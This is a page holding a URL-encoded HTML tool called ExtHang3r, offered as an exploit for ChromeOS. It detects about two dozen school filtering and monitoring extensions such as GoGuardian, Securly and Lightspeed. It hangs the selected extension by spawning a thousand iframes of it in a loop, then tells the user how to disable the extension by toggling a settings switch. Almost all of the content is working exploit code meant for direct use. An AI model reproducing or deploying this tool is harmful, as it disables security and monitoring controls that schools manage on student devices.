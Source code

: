 # Greetings
[data:text/html;charset=utf-8,<!DOCTYPE%20html>%0A<html%20lang%3D"en">%0A<head>%0A%20%20<meta%20charset%3D"UTF-8">%0A%20%20<meta%20name%3D"viewport"%20content%3D"width%3Ddevice-width%2C%20initial-scale%3D1.0">%0A%20%20<title>ExtHang3r<%2Ftitle>%0A%20%20<link%20rel%3D"shortcut%20icon"%20type%3D"image%2Fpng"%20href%3D"https%3A%2F%2Fraw.githubusercontent.com%2FBlobby-Boi%2FExtHang3r%2Fmain%2Ffavicon.png">%0A%20%20<link%20rel%3D"stylesheet"%20href%3D"https%3A%2F%2Ffonts.googleapis.com%2Fcss2%3Ffamily%3DVarela%2BRound%26display%3Dswap">%0A%20%20<style>%0A%20%20%20%20body%20%7B%0A%20%20%20%20%20%20font-family%3A%20'Varela%20Round'%2C%20sans-serif%3B%0A%20%20%20%20%20%20margin%3A%200%3B%0A%20%20%20%20%20%20padding%3A%200%3B%0A%20%20%20%20%20%20background-color%3A%20%23f8f9fa%3B%0A%20%20%20%20%20%20color%3A%20%23333%3B%0A%20%20%20%20%7D%0A%20%20%20%20header%20%7B%0A%20%20%20%20%20%20background-color%3A%20%23343a40%3B%0A%20%20%20%20%20%20color%3A%20%23fff%3B%0A%20%20%20%20%20%20padding%3A%2010px%2020px%3B%0A%20%20%20%20%20%20text-align%3A%20center%3B%0A%20%20%20%20%20%20display%3A%20flex%3B%0A%20%20%20%20%20%20align-items%3A%20center%3B%0A%20%20%20%20%20%20justify-content%3A%20center%3B%0A%20%20%20%20%20%20box-shadow%3A%200%202px%205px%20rgba(0%2C%200%2C%200%2C%200.1)%3B%0A%20%20%20%20%7D%0A%20%20%20%20.logo%20%7B%0A%20%20%20%20%20%20width%3A%2050px%3B%0A%20%20%20%20%20%20height%3A%2050px%3B%0A%20%20%20%20%20%20margin-right%3A%2010px%3B%0A%20%20%20%20%7D%0A%20%20%20%20.container%20%7B%0A%20%20%20%20%20%20max-width%3A%20800px%3B%0A%20%20%20%20%20%20margin%3A%20150px%20auto%200%20auto%3B%0A%20%20%20%20%20%20padding%3A%2020px%3B%0A%20%20%20%20%20%20text-align%3A%20center%3B%0A%20%20%20%20%20%20background%3A%20%23fff%3B%0A%20%20%20%20%20%20box-shadow%3A%200%204px%208px%20rgba(0%2C%200%2C%200%2C%200.1)%3B%0A%20%20%20%20%20%20border-radius%3A%208px%3B%0A%20%20%20%20%7D%0A%20%20%20%20select%20%7B%0A%20%20%20%20%20%20font-family%3A%20'Varela%20Round'%2C%20sans-serif%3B%0A%20%20%20%20%20%20margin-bottom%3A%2010px%3B%0A%20%20%20%20%20%20padding%3A%2010px%3B%0A%20%20%20%20%20%20font-size%3A%2016px%3B%0A%20%20%20%20%20%20border%3A%201px%20solid%20%23ced4da%3B%0A%20%20%20%20%20%20border-radius%3A%204px%3B%0A%20%20%20%20%20%20width%3A%20100%25%3B%0A%20%20%20%20%7D%0A%20%20%20%20button%20%7B%0A%20%20%20%20%20%20font-family%3A%20'Varela%20Round'%2C%20sans-serif%3B%0A%20%20%20%20%20%20background-color%3A%20%23007bff%3B%0A%20%20%20%20%20%20color%3A%20%23fff%3B%0A%20%20%20%20%20%20border%3A%20none%3B%0A%20%20%20%20%20%20padding%3A%2010px%2020px%3B%0A%20%20%20%20%20%20font-size%3A%2016px%3B%0A%20%20%20%20%20%20cursor%3A%20pointer%3B%0A%20%20%20%20%20%20border-radius%3A%205px%3B%0A%20%20%20%20%20%20margin-top%3A%2010px%3B%0A%20%20%20%20%20%20transition%3A%20background-color%200.3s%20ease%3B%0A%20%20%20%20%7D%0A%20%20%20%20button%3Ahover%20%7B%0A%20%20%20%20%20%20background-color%3A%20%230056b3%3B%0A%20%20%20%20%7D%0A%20%20%20%20.overlay%20%7B%0A%20%20%20%20%20%20position%3A%20fixed%3B%0A%20%20%20%20%20%20top%3A%200%3B%0A%20%20%20%20%20%20left%3A%200%3B%0A%20%20%20%20%20%20width%3A%20100%25%3B%0A%20%20%20%20%20%20height%3A%20100%25%3B%0A%20%20%20%20%20%20background-color%3A%20rgba(0%2C%200%2C%200%2C%200.7)%3B%0A%20%20%20%20%20%20display%3A%20none%3B%0A%20%20%20%20%20%20justify-content%3A%20center%3B%0A%20%20%20%20%20%20align-items%3A%20center%3B%0A%20%20%20%20%20%20z-index%3A%209999%3B%0A%20%20%20%20%20%20color%3A%20%23fff%3B%0A%20%20%20%20%20%20font-size%3A%2024px%3B%0A%20%20%20%20%20%20user-select%3A%20none%3B%0A%20%20%20%20%20%20flex-direction%3A%20column%3B%0A%20%20%20%20%7D%0A%20%20%20%20.spinner%20%7B%0A%20%20%20%20%20%20border%3A%206px%20solid%20rgba(255%2C%20255%2C%20255%2C%200.3)%3B%0A%20%20%20%20%20%20border-top%3A%206px%20solid%20%23fff%3B%0A%20%20%20%20%20%20border-radius%3A%2050%25%3B%0A%20%20%20%20%20%20width%3A%2040px%3B%0A%20%20%20%20%20%20height%3A%2040px%3B%0A%20%20%20%20%20%20animation%3A%20spin%201s%20linear%20infinite%3B%0A%20%20%20%20%20%20margin-bottom%3A%2020px%3B%0A%20%20%20%20%7D%0A%20%20%20%20%40keyframes%20spin%20%7B%0A%20%20%20%20%20%200%25%20%7B%20transform%3A%20rotate(0deg)%3B%20%7D%0A%20%20%20%20%20%20100%25%20%7B%20transform%3A%20rotate(360deg)%3B%20%7D%0A%20%20%20%20%7D%0A%20%20%20%20%23killExtensionText%20%7B%0A%20%20%20%20%20%20display%3A%20none%3B%0A%20%20%20%20%20%20margin-top%3A%2020px%3B%0A%20%20%20%20%20%20color%3A%20%23333%3B%0A%20%20%20%20%20%20font-size%3A%2018px%3B%0A%20%20%20%20%20%20text-align%3A%20center%3B%0A%20%20%20%20%20%20background%3A%20%23e9ecef%3B%0A%20%20%20%20%20%20padding%3A%2020px%3B%0A%20%20%20%20%20%20border-radius%3A%208px%3B%0A%20%20%20%20%20%20box-shadow%3A%200%204px%208px%20rgba(0%2C%200%2C%200%2C%200.1)%3B%0A%20%20%20%20%7D%0A%20%20%20%09%20%23killButton%20%7B%0A%09%20%20display%3A%20none%3B%0A%09%20%20background-color%3A%20%23dc3545%3B%0A%09%20%20color%3A%20%23fff%3B%0A%09%20%20border%3A%20none%3B%0A%09%20%20padding%3A%2010px%2020px%3B%0A%09%20%20font-size%3A%2016px%3B%0A%09%20%20cursor%3A%20pointer%3B%0A%09%20%20border-radius%3A%205px%3B%0A%20%09%20%20transition%3A%20background-color%200.3s%20ease%3B%0A%09%7D%0A%0A%09%23killButton%3Ahover%20%7B%0A%09%20%20background-color%3A%20%239c1c28%3B%0A%09%7D%0A%20%20%20%20footer%20%7B%0A%20%20%20%20%20%20background-color%3A%20%23343a40%3B%0A%20%20%20%20%20%20color%3A%20%23fff%3B%0A%20%20%20%20%20%20text-align%3A%20center%3B%0A%20%20%20%20%20%20padding%3A%2010px%3B%0A%20%20%20%20%20%20position%3A%20fixed%3B%0A%20%20%20%20%20%20bottom%3A%200%3B%0A%20%20%20%20%20%20width%3A%20100%25%3B%0A%20%20%20%20%7D%0A%20%20%20%20footer%20a%20%7B%0A%20%20%20%20%20%20color%3A%20%23007bff%3B%0A%20%20%20%20%20%20text-decoration%3A%20none%3B%0A%20%20%20%20%7D%0A%20%20%20%20footer%20a%3Ahover%20%7B%0A%20%20%20%20%20%20text-decoration%3A%20underline%3B%0A%20%20%20%20%7D%0A%20%20<%2Fstyle>%0A<%2Fhead>%0A<body>%0A%0A<header>%0A%20%20<img%20src%3D"https%3A%2F%2Fblobby-boi.github.io%2FBlobbypassXSS%2Ffavicon.png"%20alt%3D"Logo"%20class%3D"logo">%0A%20%20<h1>ExtHang3r<%2Fh1>%0A<%2Fheader>%0A%0A<div%20class%3D"container">%0A%20%20<p>ExtHang3r%20is%20an%20exploit%20that%20allows%20ChromeOS%20users%20to%20kill%20managed%20extensions%20after%20the%20LTMEAT%20patch.%20It%20remains%20unpatched%20in%20all%20new%20ChromeOS%20versions%20as%20of%20September%202024.<%2Fp>%0A%20%20<label%20for%3D"iframeSelect"%20id%3D"labelForIframeSelect">Select%20extension%3A<%2Flabel>%0A%20%20<select%20id%3D"iframeSelect">%0A%20%20<%2Fselect>%0A%20%20<button%20onclick%3D"warning()%3B"%20id%3D"hangButton">Hang%20Extension!<%2Fbutton>%0A%20%20<button%20id%3D"killButton"%20onclick%3D"openExtensionPopup()%3B">Kill%20Extension!<%2Fbutton>%0A<%2Fdiv>%0A%0A<div%20class%3D"overlay"%20id%3D"overlay">%0A%20%20<div%20class%3D"spinner"><%2Fdiv>%0A%20%20Hanging...%20(This%20will%20take%20about%201%20minute)%0A<%2Fdiv>%0A<div%20id%3D"killExtensionText"><%2Fdiv>%0A%0A<footer>%0A%20%20<p>Made%20by%20<a%20href%3D"https%3A%2F%2Fgithub.com%2FBlobby-Boi%2F">Blobby%20Boi<%2Fa><%2Fp>%0A<%2Ffooter>%0A%0A<script>%0A%20%20async%20function%20checkExtensionURL(url)%20%7B%0A%20%20%20%20try%20%7B%0A%20%20%20%20%20%20const%20response%20%3D%20await%20fetch(url)%3B%0A%20%20%20%20%20%20if%20(response.ok)%20%7B%0A%20%20%20%20%20%20%20%20return%20true%3B%0A%20%20%20%20%20%20%7D%20else%20%7B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%20catch%20(error)%20%7B%0A%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%20%20%7D%0A%0A%20%20async%20function%20populateSelectOptions()%20%7B%0A%20%20%20%20const%20selectElement%20%3D%20document.getElementById("iframeSelect")%3B%0A%20%20%20%20const%20extensions%20%3D%20%7B%0A%20%20%20%20%20%20"Securly"%3A%20"chrome-extension%3A%2F%2Fjoflmkccibkooplaeoinecjbmdebglab%2Ffonts%2FMetropolis.css"%2C%0A%20%20%20%20%20%20"Securly%20(old)"%3A%20"chrome-extension%3A%2F%2Fiheobagjkfklnlikgihanlhcddjoihkg%2Ffonts%2FMetropolis.css"%2C%0A%20%20%20%20%20%20"GoGuardian"%3A%20"chrome-extension%3A%2F%2Fhaldlgldplgnggkjaafhelgiaglafanh%2Fyoutube_injection.js"%2C%0A%20%20%20%20%20%20"LANSchool"%3A%20"chrome-extension%3A%2F%2Fbaleiojnjpgeojohhhfbichcodgljmnj%2Fblocked.html"%2C%0A%20%20%20%20%20%20"Linewize"%3A%20"chrome-extension%3A%2F%2Fddfbkhpmcdbciejenfcolaaiebnjcbfc%2Fbackground%2Fassets%2Fpages%2Fdefault-blocked.html"%2C%0A%20%20%20%20%20%20"Blocksi"%3A%20"chrome-extension%3A%2F%2Fghlpmldmjjhmdgmneoaibbegkjjbonbk%2Fpages%2FblockPage.html"%2C%0A%20%20%20%20%20%20"FortiGuard"%3A%20"chrome-extension%3A%2F%2Figbgpehnbmhgdgjbhkkpedommgmfbeao%2Fyoutube_injection.js"%2C%0A%20%20%20%20%20%20"Cisco%20Umbrella"%3A%20"chrome-extension%3A%2F%2Fjcdhmojfecjfmbdpchihbeilohgnbdci%2Fblocked.html"%2C%0A%20%20%20%20%20%20"ContentKeeper"%3A%20"chrome-extension%3A%2F%2Fjdogphakondfdmcanpapfahkdomaicfa%2Fimg%2Fckauth19x.png"%2C%0A%20%20%20%20%20%20"CK-Authenticator%20G3"%3A%20"chrome-extension%3A%2F%2Fodoanpnonilogofggaohhkdkdgbhdljp%2Fimg%2Fckauth19x.png"%2C%0A%20%20%20%20%20%20"Securly%20Classroom"%3A%20"chrome-extension%3A%2F%2Fjfbecfmiegcjddenjhlbhlikcbfmnafd%2Fnotfound.html"%2C%0A%20%20%20%20%20%20"Hapara"%3A%20"chrome-extension%3A%2F%2Fkbohafcopfpigkjdimdcdgenlhkmhbnc%2Fblocked.html"%2C%0A%20%20%20%20%20%20"Hapara%20(new%20ID)"%3A%20"chrome-extension%3A%2F%2Faceopacgaepdcelohobicpffbbejnfac%2Fblocked.html"%2C%0A%20%20%20%20%20%20"iboss"%3A%20"chrome-extension%3A%2F%2Fkmffehbidlalibfeklaefnckpidbodff%2Frestricted.html"%2C%0A%20%20%20%20%20%20"Lightspeed%20Filter%20Agent"%3A%20"chrome-extension%3A%2F%2Fadkcpkpghahmbopkjchobieckeoaoeem%2Ficon-128.png"%2C%0A%20%20%20%20%20%20"Lightspeed%20Classroom"%3A%20"chrome-extension%3A%2F%2Fkkbmdgjggcdajckdlbngdjonpchpaiea%2Fassets%2Ficon-classroom-128.png"%2C%0A%20%20%20%20%20%20"InterCLASS%20Filtering%20Service"%3A%20"chrome-extension%3A%2F%2Fjbddgjglgkkneonnineaohdhabjbgopi%2Fpages%2Fmessage-page.html"%2C%0A%20%20%20%20%20%20"InterSafe%20GatewayConnection%20Agent"%3A%20"chrome-extension%3A%2F%2Fecjoghccnjlodjlmkgmnbnkdcbnjgden%2Fresources%2Foptions.js"%2C%0A%20%20%20%20%20%20"LoiLo%20Web%20Filters"%3A%20"chrome-extension%3A%2F%2Fpabjlbjcgldndnpjnokjakbdofjgnfia%2Fimage%2Fallow_icon%2Fshield_green_128x128.png"%2C%0A%20%20%20%20%20%20"Gopher%20Buddy"%3A%20"chrome-extension%3A%2F%2Fcgbbbjmgdpnifijconhamggjehlamcif%2Fimages%2Fgopher-buddy_128x128_color.png"%2C%0A%20%20%20%20%20%20"LanSchool%20Web%20Helper"%3A%20"chrome-extension%3A%2F%2Fhonjcnefekfnompampcpmcdadibmjhlk%2Fblocked.html"%2C%0A%20%20%20%20%20%20"IMTLazarus"%3A%20"chrome-extension%3A%2F%2Fcgigopjakkeclhggchgnhmpmhghcbnaf%2Fmodels%2Fmodel.json"%2C%0A%20%20%20%20%20%20"Impero%20Backdrop"%3A%20"chrome-extension%3A%2F%2Fjjpmjccpemllnmgiaojaocgnakpmfgjg%2Flicenses.html"%2C%0A%20%20%20%20%20%20"Mobile%20Guardian"%3A%20"chrome-extension%3A%2F%2Ffgmafhdohjkdhfaacgbgclmfgkgokgmb%2Fblock.html"%0A%20%20%20%20%7D%3B%0A%20%20%20%20%0A%20%20%20%20let%20hasSupportedExtensions%20%3D%20false%3B%0A%0A%20%20%20%20for%20(const%20%5Bname%2C%20url%5D%20of%20Object.entries(extensions))%20%7B%0A%20%20%20%20%20%20if%20(await%20checkExtensionURL(url))%20%7B%0A%20%20%20%20%20%20%20%20const%20option%20%3D%20document.createElement("option")%3B%0A%20%20%20%20%20%20%20%20option.value%20%3D%20url%3B%0A%20%20%20%20%20%20%20%20option.textContent%20%3D%20name%3B%0A%20%20%20%20%20%20%20%20selectElement.appendChild(option)%3B%0A%20%20%20%20%20%20%20%20hasSupportedExtensions%20%3D%20true%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%20%20%20%20%0A%20%20%20%20if%20(!hasSupportedExtensions)%20%7B%0A%20%20%20%20%20%20const%20option%20%3D%20document.createElement("option")%3B%0A%20%20%20%20%20%20option.value%20%3D%20""%3B%0A%20%20%20%20%20%20option.textContent%20%3D%20"No%20supported%20extensions%20installed"%3B%0A%20%20%20%20%20%20selectElement.appendChild(option)%3B%0A%20%20%20%20%20%20document.getElementById("hangButton").style.display%20%3D%20"none"%3B%0A%20%20%20%20%7D%0A%20%20%7D%0A%0A%20%20populateSelectOptions()%3B%0A%20%20%0A%20%20function%20replaceIframes(container%2C%20iframeSrc)%20%7B%0A%20%20%20%20for%20(var%20i%20%3D%200%3B%20i%20<%201000%3B%20i%2B%2B)%20%7B%0A%20%20%20%20%20%20var%20iframe%20%3D%20document.createElement('iframe')%3B%0A%20%20%20%20%20%20iframe.src%20%3D%20iframeSrc%3B%0A%20%20%20%20%20%20iframe.style.width%20%3D%20'100%25'%3B%0A%20%20%20%20%20%20iframe.style.height%20%3D%20'100px'%3B%0A%20%20%20%20%20%20container.appendChild(iframe)%3B%0A%20%20%20%20%7D%0A%20%20%20%20setTimeout(function()%20%7B%0A%20%20%20%20%20%20while%20(container.firstChild)%20%7B%0A%20%20%20%20%20%20%20%20container.removeChild(container.firstChild)%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20replaceIframes(container%2C%20iframeSrc)%3B%0A%20%20%20%20%7D%2C%205)%3B%0A%20%20%7D%0A%0A%20%20function%20warning()%20%7B%0A%20%20%20%20var%20overlay%20%3D%20document.getElementById("overlay")%3B%0A%20%20%20%20overlay.style.display%20%3D%20"flex"%3B%0A%20%20%20%20var%20iframeSelect%20%3D%20document.getElementById("iframeSelect")%3B%0A%20%20%20%20var%20selectedOption%20%3D%20iframeSelect.options%5BiframeSelect.selectedIndex%5D.text%3B%0A%20%20%20%20var%20selectedSrc%20%3D%20iframeSelect.value%3B%0A%20%20%20%20var%20popup%20%3D%20window.open(""%2C%20"PopupWindow"%2C%20"width%3D100%2Cheight%3D100")%3B%0A%20%20%20%20var%20popupDocument%20%3D%20popup.document%3B%0A%20%20%20%20var%20popupBody%20%3D%20popupDocument.body%3B%0A%20%20%20%20var%20iframeContainer%20%3D%20popupDocument.createElement('div')%3B%0A%20%20%20%20iframeContainer.id%20%3D%20'iframeContainer'%3B%0A%20%20%20%20popupBody.appendChild(iframeContainer)%3B%0A%20%20%20%20replaceIframes(iframeContainer%2C%20selectedSrc)%3B%0A%20%20%20%20setTimeout(function()%20%7B%0A%20%20%20%20%20%20popup.close()%3B%0A%20%20%20%20%20%20var%20extensionId%20%3D%20selectedSrc.substring(selectedSrc.indexOf("%2F%2F")%20%2B%202%2C%20selectedSrc.indexOf("%2F"%2C%20selectedSrc.indexOf("%2F%2F")%20%2B%202))%3B%0A%20%20%20%20%20%20var%20extensionURL%20%3D%20"chrome-extension%3A%2F%2F"%20%2B%20extensionId%3B%0A%20%20%20%20%20%20var%20killExtensionText%20%3D%20document.getElementById("killExtensionText")%3B%0A%20%20%20%20%20%20killExtensionText.innerHTML%20%3D%20"Now%20that%20the%20extension%20<strong>"%20%2B%20selectedOption%20%2B%20"<%2Fstrong>%20has%20been%20hanged%2C%20press%20the%20button%20above."%3B%0A%20%20%20%20%20%20setTimeout(function()%20%7B%0A%20%20%20%20%20%20%20%20overlay.style.display%20%3D%20"none"%3B%0A%20%20%20%20%20%20%20%20killExtensionText.style.display%20%3D%20"block"%3B%0A%20%20%20%20%20%20%20%20document.getElementById("killButton").style.display%20%3D%20"inline-block"%3B%0A%20%20%20%20%20%20%20%20document.getElementById("hangButton").style.display%20%3D%20"none"%3B%0A%09document.getElementById("iframeSelect").style.display%20%3D%20"none"%3B%0A%09document.getElementById("labelForIframeSelect").style.display%20%3D%20"none"%3B%0A%20%20%20%20%20%20%20%20document.getElementById("killButton").setAttribute("data-url"%2C%20selectedSrc)%3B%0A%20%20%20%20%20%20%7D%2C%2010000)%3B%0A%20%20%20%20%7D%2C%205000)%3B%0A%20%20%7D%0A%0A%20%20function%20openExtensionPopup()%20%7B%0A%20%20%20%20var%20selectedSrc%20%3D%20document.getElementById("killButton").getAttribute("data-url")%3B%0A%20%20%20%20var%20extensionId%20%3D%20selectedSrc.substring(selectedSrc.indexOf("%2F%2F")%20%2B%202%2C%20selectedSrc.indexOf("%2F"%2C%20selectedSrc.indexOf("%2F%2F")%20%2B%202))%3B%0A%20%20%20%20var%20killExtensionText%20%3D%20document.getElementById("killExtensionText")%3B%0A%20%20%20%20document.getElementById("killButton").style.display%20%3D%20"none"%3B%0A%20%20%20%20killExtensionText.innerHTML%20%3D%20"Make%20sure%20to%20keep%20this%20tab%20open.%20Then%20in%20a%20new%20tab%20open%20<strong>chrome%3A%2F%2Fextensions%2F%3Fid%3D"%20%2B%20extensionId%20%2B%20"<%2Fstrong>%20Flip%20the%20switch%20called%20allow%20access%20to%20file%20URLs%20twice.%20The%20extension%20was%20successfully%20killed!%20Now%20you%20can%20close%20that%20tab%20as%20well%20as%20this%20one.%20If%20you%20want%20to%20restore%20the%20extension%2C%20flip%20the%20allow%20access%20to%20file%20URLs%20switch%20again."%3B%0A%20%20%20%20window.location.href%20%3D%20selectedSrc%3B%0A%20%20%7D%0A<%2Fscript>%0A<%2Fbody>%0A<%2Fhtml>]
